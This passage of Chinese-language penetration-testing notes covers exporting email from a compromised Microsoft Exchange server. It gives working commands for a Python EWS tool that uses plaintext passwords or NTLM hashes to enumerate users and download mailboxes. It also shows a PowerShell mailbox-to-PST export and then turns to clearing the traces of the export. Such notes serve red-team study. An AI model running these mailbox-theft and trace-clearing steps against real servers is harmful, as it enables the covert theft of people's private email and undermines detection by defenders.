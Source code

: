 > python ewsManage\_Downloader.py 192.168.52.139 443 plaintext vvvv1.com admins User!@#45 findallpeople

##### ![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689585556823-7f879f4d-d2d3-4ab9-a99e-1c2df06b5e56.png)

### 导出邮件内容

#### 通过/OWA接口直接下载邮件

通过输入账号密码，然后直接在页面中读取或下载邮件

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689496088856-42447cc9-85cd-4635-9fd7-78822802f050.png)

#### 通过/EWS接口导出邮件内容

##### 通过python远程导出邮件

可以通过明文密码导出，也可以通过hash导出

> python ewsManage\_Downloader.py 192.168.52.139 443 plaintext vvvv1.com administrator admin!@#456 download
> 
> python ewsManage\_Downloader.py test.com 80 ntlmhash NULL user1 c5a237b7e9d8e708d8436b6148a25fa1 findallpeople

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689496659938-ed260a92-1ca8-4ff2-b6d1-e3d8c967cc41.png)

通过python导出邮件一般情况下使用SOAP XML message导出

XML元素官方文档：

<https://learn.microsoft.com/en-us/exchange/client-developer/web-service-reference/ews-xml-elements-in-exchange>

##### 通过exshell.ps1导出邮件

<https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E4%BB%8EExchange%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E6%90%9C%E7%B4%A2%E5%92%8C%E5%AF%BC%E5%87%BA%E9%82%AE%E4%BB%B6>

> Powershell.exe -psconsolefile "C:\\\\program files\\\\Microsoft\\\\Exchange Server\\\\v15\\\\Bin\\\\exshell.psc1" -command "New-MailboxExportrequest -mailbox administrator -filepath '\\\\localhost\\c$\\exchange1.pst'

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689501424276-b5e4234d-dc00-4a36-9ee1-e31280018d5c.png)

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689501506351-f6a8d651-023b-489b-8d73-9e639e0946e5.png)

当然，在导出邮件之后，我们还需要进行导出邮件痕迹的清除

查看邮件导出请求记录

> Powershell.exe -psconsolefile "C:\\\\program files\\\\Microsoft\\\\Exchange Server\\\\v15\\\\Bin\\\\exshell.psc1" -command "Get-MailboxExportRequest"

![](https://cdn.nlark.com/yuque/0/2023/png/21953116/1689501821230-d1bf653b-bd67-42e6-93b3-05954a47f631.png)
